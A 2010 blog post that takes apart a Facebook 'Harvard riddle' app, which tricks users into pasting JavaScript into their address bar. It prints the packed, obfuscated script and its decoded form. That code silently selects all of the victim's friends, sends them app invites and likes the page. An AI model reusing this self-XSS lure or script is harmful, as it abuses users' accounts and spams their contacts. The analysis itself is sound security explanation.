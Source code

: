 ```yaml
---
layout: post
title: "Shady Harvard Puzzle Facebook App Disassembled"
date: 2010-04-26 22:32:33 +0000
permalink: /en/shady-harvard-puzzle-facebook-app-disassembled
blog: en
tags: tech programming javascript security
render_with_liquid: false
---
```


Today I got an email from a friend on Facebook that suggested that I try
out this application called "[Only 4% of harvard grads can solve this
riddle..](http://www.facebook.com/pages/Only-4-of-harvard-grads-can-solve-this-riddle/112049325499228?v=wall)".
Being curious I took a look at it.

The app starts out innocently enough, posing a riddle that supposedly
only 4% of Harvard grads can guess.

![image](http://farm5.static.flickr.com/4062/4554647376_5a38c707a8.jpg)

But in order to see the answer it asks you to type "Ctrl-C" to copy some
javascript, "Alt-D" to select your address bar, and "Ctrl-V Enter" to
run the javascript.

Here is the beautified packed javascript.

```javascript
javascript: (function () {
  a = "app112010525500764_jop";
  b = "app112010525500764_jode";
  ifc = "app112010525500764_ifc";
  ifo = "app112010525500764_ifo";
  mw = "app112010525500764_mwrapper";
  eval(
    (function (p, a, c, k, e, r) {
      e = function (c) {
        return (
          (c < a ? "" : e(parseInt(c / a))) +
          ((c = c % a) > 35 ? String.fromCharCode(c + 29) : c.toString(36))
        );
      };
      if (!"".replace(/^/, String)) {
        while (c--) r[e(c)] = k[c] || e(c);
        k = [
          function (e) {
            return r[e];
          },
        ];
        e = function () {
          return "\\w+";
        };
        c = 1;
      }
      while (c--)
        if (k[c]) p = p.replace(new RegExp("\\b" + e(c) + "\\b", "g"), k[c]);
      return p;
    })(
      'J e=["\\n\\g\\j\\g\\F\\g\\i\\g\\h\\A","\\j\\h\\A\\i\\f","\\o\\f\\h\\q\\i\\f\\r\\f\\k\\h\\K\\A\\L\\t","\\w\\g\\t\\t\\f\\k","\\g\\k\\k\\f\\x\\M\\N\\G\\O","\\n\\l\\i\\y\\f","\\j\\y\\o\\o\\f\\j\\h","\\i\\g\\H\\f\\r\\f","\\G\\u\\y\\j\\f\\q\\n\\f\\k\\h\\j","\\p\\x\\f\\l\\h\\f\\q\\n\\f\\k\\h","\\p\\i\\g\\p\\H","\\g\\k\\g\\h\\q\\n\\f\\k\\h","\\t\\g\\j\\z\\l\\h\\p\\w\\q\\n\\f\\k\\h","\\j\\f\\i\\f\\p\\h\\v\\l\\i\\i","\\j\\o\\r\\v\\g\\k\\n\\g\\h\\f\\v\\P\\u\\x\\r","\\B\\l\\Q\\l\\R\\B\\j\\u\\p\\g\\l\\i\\v\\o\\x\\l\\z\\w\\B\\g\\k\\n\\g\\h\\f\\v\\t\\g\\l\\i\\u\\o\\S\\z\\w\\z","\\j\\y\\F\\r\\g\\h\\T\\g\\l\\i\\u\\o"];d=U;d[e[2]](V)[e[1]][e[0]]=e[3];d[e[2]](a)[e[4]]=d[e[2]](b)[e[5]];s=d[e[2]](e[6]);m=d[e[2]](e[7]);c=d[e[9]](e[8]);c[e[11]](e[10],I,I);s[e[12]](c);C(D(){W[e[13]]()},E);C(D(){X[e[16]](e[14],e[15])},E);C(D(){m[e[12]](c);d[e[2]](Y)[e[4]]=d[e[2]](Z)[e[5]]},E);',
      62,
      69,
      "||||||||||||||_0x95ea|x65|x69|x74|x6C|x73|x6E|x61||x76|x67|x63|x45|x6D||x64|x6F|x5F|x68|x72|x75|x70|x79|x2F|setTimeout|function|5000|x62|x4D|x6B|true|var|x42|x49|x48|x54|x4C|x66|x6A|x78|x2E|x44|document|mw|fs|SocialGraphManager|ifo|ifc|||||||".split(
        "|",
      ),
      0,
      {},
    ),
  );
})();
```

Here we have some javascript code that is packed. The above code unpacks
the packed code and evals it. I replaced the above eval with console.log
and ran the code to output the packed code. Here it is beautified.

```javascript
d = document;
d["getElementById"](mw)["style"]["visibility"] = "hidden";
d["getElementById"](a)["innerHTML"] = d["getElementById"](b)["value"];
s = d["getElementById"]("suggest");
m = d["getElementById"]("likeme");
c = d["createEvent"]("MouseEvents");
c["initEvent"]("click", true, true);
s["dispatchEvent"](c);
setTimeout(function () {
  fs["select_all"]();
}, 5000);
setTimeout(function () {
  SocialGraphManager["submitDialog"](
    "sgm_invite_form",
    "/ajax/social_graph/invite_dialog.php",
  );
}, 5000);
setTimeout(function () {
  m["dispatchEvent"](c);
  d["getElementById"](ifo)["innerHTML"] = d["getElementById"](ifc)["value"];
}, 5000);
```

Lets go though the code above step by step.

```javascript
d["getElementById"](mw)["style"]["visibility"] = "hidden";
```

This code hides the application's main block.

```javascript
d["getElementById"](a)["innerHTML"] = d["getElementById"](b)["value"];
```

The contents of the textarea at id b ('app112010525500764_jode') is
html for a dialog to suggest the application to your friends. The code
inserts it into a block on the page.

```html
<textarea
  id="app112010525500764_jode"
  style="display: none;"
  fbcontext="86d477030eb0"
>
  <div class="suggestdiv">
    <a id="suggest" href="#" ajaxify="/ajax/social_graph/invite_dialog.php?class=FanManager&node_id=112049325499228" class=" profile_action actionspro_a" rel="dialog-post">Suggest to Friends</a>
  </div>
  <div class="likemediv">
    <a ajaxify="/ajax/pages/fan_status.php?fbpage_id=112049325499228&add=1&reload=0&preserve_tab=1&use_primer=1" id="likeme" rel="async-post" class="UIButton UIButton_Gray UIButton_CustomIcon UIActionButton" href="#">
    <span class="UIButton_Text"><i class="UIButton_Icon img spritemap_icons sx_icons_like"></i>Like</span></a>
  </div>
</textarea>
```

The next code sets up a mouse click event and selects some elements from
the suggest box.

```javascript
s = d["getElementById"]("suggest");
m = d["getElementById"]("likeme");
c = d["createEvent"]("MouseEvents");
c["initEvent"]("click", true, true);
s["dispatchEvent"](c);
```

The code below is the shady part. It sets 5 second timers that will
click items on the suggestion box, effectively selecting all of your
friends and suggesting the application to them. It then likes the
application.

```javascript
setTimeout(function () {
  fs["select_all"]();
}, 5000);
setTimeout(function () {
  SocialGraphManager["submitDialog"](
    "sgm_invite_form",
    "/ajax/social_graph/invite_dialog.php",
  );
}, 5000);
setTimeout(function () {
  m["dispatchEvent"](c);
  d["getElementById"](ifo)["innerHTML"] = d["getElementById"](ifc)["value"];
}, 5000);
```

As of this writing 543 people had liked the application which I take to
mean that 543 people followed the instructions on the application. The
application itself doesn't do anything particularly bad besides spam all
of your friends so I took it to be a security research application.
Anyone else have a better take on it?
